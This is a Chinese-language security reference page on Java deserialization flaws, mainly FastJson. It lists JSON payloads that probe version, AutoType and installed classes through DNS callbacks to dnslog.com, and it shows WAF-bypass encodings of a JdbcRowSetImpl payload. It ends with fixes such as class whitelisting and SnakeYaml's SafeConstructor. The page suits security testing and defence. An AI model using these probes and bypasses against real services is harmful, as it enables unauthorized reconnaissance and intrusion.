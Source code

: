 - [反序列化 Deserialization](#反序列化-deserialization)
  - [PHP](#php)
  - [JAVA](#java)
    - [FastJson](#fastjson)
      - [版本探测](#版本探测)
      - [AutoType探测](#autotype探测)
      - [依赖环境探测](#依赖环境探测)
      - [WAF Bypass](#waf-bypass)
  - [修复方案](#修复方案)
    - [校验过滤](#校验过滤)
    - [Apache Commons IO](#apache-commons-io)
    - [SnakeYaml](#snakeyaml)
    - [更新组件](#更新组件)
  - [参考](#参考)

# 反序列化 Deserialization
## PHP
## JAVA
### FastJson
#### 版本探测
遇到`{`和`,`会抛出版本信息.
```json
{"@type":"java.net.InetSocketAddress"{"address":,"val":"dnslog.com"}}
{{"@type":"java.net.URL","val":"http://dnslog.com"}:"a"}
{"@type":"java.lang.AutoCloseable"
```   
![](2023-01-16-17-04-16.png)  
1.2.47
```json
{"@type":"java.lang.Class","val":"java.io.ByteArrayOutputStream"},
{"@type":"java.io.ByteArrayOutputStream"},
{"@type":"java.net.InetSocketAddress"{"address":,"val":"dnslog.com"}}
```
1.2.68
```json
{"@type":"java.lang.AutoCloseable","@type":"java.io.ByteArrayOutputStream"},
{"@type":"java.io.ByteArrayOutputStream"},
{"@type":"java.net.InetSocketAddress"{"address":,"val":"dnslog.com"}}
```
1.2.80
```json
{"@type":"java.lang.Exception","@type":"com.alibaba.fastjson.JSONException","x":{"@type":"java.net.InetSocketAddress"{"address":,"val":"first.dnslog.com"}}},
{"@type":"java.lang.Exception","@type":"com.alibaba.fastjson.JSONException","message":{"@type":"java.net.InetSocketAddress"{"address":,"val":"second.dnslog.com"}}}
```
#### AutoType探测
1.x版本中,当使用`parse(String text)`或者`parseObject(String text)`时
```json
{"@type":"aaaa"}
```
![](2023-01-16-17-46-10.png)  
但在2.x版本,`parseObject`不再反序列化.
#### 依赖环境探测
```json
{"@type":"java.lang.Class","val":${class}}
```
```
org.springframework.web.bind.annotation.RequestMapping spring
org.apache.catalina.startup.Tomcat tomcat
groovy.lang.GroovyShell groovy
com.mysql.jdbc.Driver mysql
java.net.http.HttpClient java 11
```
```json
{"@type":"java.net.Inet4Address", "val":{"@type":"java.lang.String" {"@type":"java.util.Locale", "val":{"@type":"com.alibaba.fastjson.JSONObject",{ "@type": "java.lang.String""@type":"java.util.Locale", "language":{"@type":"java.lang.String" {1:{"@type":"java.lang.Class","val":"TARGET_CLASS"}}, "country":"x.l56y7u6g.dnslog.pw" 
```
```json
{"@type":"java.lang.Character"{"@type":"java.lang.Class","val":"com.mysql.jdbc.Driver"}
```
#### WAF Bypass
编码:base64,Quoted-printable,unicode  
payload: {"@type":"com.sun.rowset.JdbcRowSetImpl"}  
```http
------WebKitFormBoundaryAO5f48pfmr4ErWMN
Content-Disposition: form-data; name=json
Content-Transfer-Encoding: Base64
eyJAdHlwZSI6ImNvbS5zdW4ucm93c2V0LkpkYmNSb3dTZXRJbXBsIn0=
------WebKitFormBoundaryAO5f48pfmr4ErWMN--
```
```http
------WebKitFormBoundaryAO5f48pfmr4ErWMN
Content-Disposition: form-data; name=json
Content-Transfer-Encoding: quoted-printable
=7B=22=40type=22=3A=22com.sun.rowset.JdbcRowSetImpl=22=7D
------WebKitFormBoundaryAO5f48pfmr4ErWMN--
```
```json
{,new:[NaN,x'00',{,/*}*/'\x40\u0074\x79\u0070\x65':xjava.langAutoCloseable"  
```
垃圾字符:
```
[11111111111111111111111111111111111...
,[11111111111111111111111111111111111...
,[11111111111111111111111111111111111...
,[11111111111111111111111111111111111...
,[11111111111111111111111111111111111...
,...,{'\x40\u0074\x79\u0070\x65':xjava.lang.AutoCloseable"
...
]]]]]
```
## 修复方案
### 校验过滤
对于来源不可信的序列化数据，不要直接进行反序列化，而应该先进行校验，如重写ObjectInputStream的resolveClass方法，在其中对类名进行校验，反序列化中的resolveClass方法主要用于读取要反序列化对象的类名。
```java
public class SafeObject extends ObjectInputStream{

    public SafeObject(InputStream in) throws IOException {
        super(in);
    }

    @Override
    protected Class<?> resolveClass(ObjectStreamClass desc) throws IOException, ClassNotFoundException {
        Class<?> clazz  = super.resolveClass(desc);
        System.out.printf(clazz.getName());
        if(!clazz.getName().equals("User")){
            return null;
        }
        return clazz;
    }
}
```
### Apache Commons IO
使用Apache Commons IO的ValidatingObjectInputStream，accept方法来实现反序列化类白/黑名单控制.
```java
        ByteArrayInputStream stream = new ByteArrayInputStream(bytes);
        ValidatingObjectInputStream ois = new ValidatingObjectInputStream(stream);
        // 只允许反序列化Student class
        ois.accept(Student.class);
        ois.readObject();
```
### SnakeYaml
```java
    Yaml y = new Yaml();
    y.load(content);
```
使用SafeConstructor, SafeConstructor 是 SnakeYaml 提供的一个安全的构造器。它可以用来构造安全的对象，避免反序列化漏洞的发生。
```java
    Yaml y = new Yaml(new SafeConstructor());
    y.load(content);
```
### 更新组件
更新创建Gadget利用的组件,如commons-collections、commons-io等第三方库版本。

## 参考
[Hacking JSON KCon2022](https://github.com/knownsec/KCon/blob/master/2022/Hacking%20JSON%E3%80%90KCon2022%E3%80%91.pdf)  
https://b1ue.cn/archives/402.html